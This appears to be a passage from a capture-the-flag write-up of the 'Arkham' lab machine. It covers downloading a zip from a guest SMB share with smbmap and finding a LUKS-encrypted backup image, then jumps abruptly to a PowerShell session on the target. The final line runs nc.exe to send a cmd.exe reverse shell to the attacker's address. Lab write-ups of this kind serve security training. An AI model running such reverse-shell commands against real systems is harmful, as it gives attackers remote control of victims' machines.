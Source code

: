 Downloading the file using `smbmap`:

```
# smbmap -u snowscan --download BatShare\\appserver.zip -H 10.10.10.130
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] Starting download: BatShare\appserver.zip (4046695 bytes)
[+] File output to: /usr/share/smbmap/10.10.10.130-BatShare_appserver.zip
```

Extracting and checking the content:

```
# 7z e 10.10.10.130-BatShare_appserver.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i7-2600K CPU @ 3.40GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 4046695 bytes (3952 KiB)

Extracting archive: 10.10.10.130-BatShare_appserver.zip
--
Path = 10.10.10.130-BatShare_appserver.zip
Type = zip
Physical Size = 4046695

Everything is Ok

Files: 2
Size:       13631637
Compressed: 4046695
# ls -l
total 17268
-rw-r--r-- 1 root root  4046695 Mar 16 23:24 10.10.10.130-BatShare_appserver.zip
-rw-r--r-- 1 root root 13631488 Dec 25 01:05 backup.img
-rw-r--r-- 1 root root      149 Dec 25 01:21 IMPORTANT.txt
```

I check the `IMPORTANT.txt` message first and see that it contains a hint that the `backup.img` file is protected.

```
# cat IMPORTANT.txt
Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce
```

I then check what kind of file this is and see that it is a LUKS encrypted file:

```
# file backup.img
backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666